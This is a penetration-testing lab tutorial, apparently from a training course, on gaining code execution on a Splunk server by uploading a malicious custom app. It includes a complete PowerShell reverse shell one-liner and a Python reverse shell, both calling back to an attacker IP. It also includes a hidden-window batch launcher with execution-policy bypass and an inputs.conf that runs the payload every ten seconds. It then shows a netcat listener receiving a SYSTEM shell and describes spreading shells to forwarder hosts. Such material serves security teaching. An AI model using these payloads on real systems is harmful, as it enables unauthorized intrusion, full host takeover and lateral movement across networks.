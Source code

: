 # Attacking Splunk

As discussed in the previous section, we can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts. From the Nmap discovery scan, we noticed that our target is a Windows server. Since Splunk comes with Python installed, we can create a custom Splunk application that gives us remote code execution using Python or a PowerShell script.

***

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure.

```shell-session
$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/search/apps/local</p></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

In this case, we got a shell back as `NT AUTHORTY\SYSTEM`. If this were a real-world assessment, we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network. If this was our initial foothold in the domain environment, we could use this access to begin enumerating the Active Directory domain.

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.
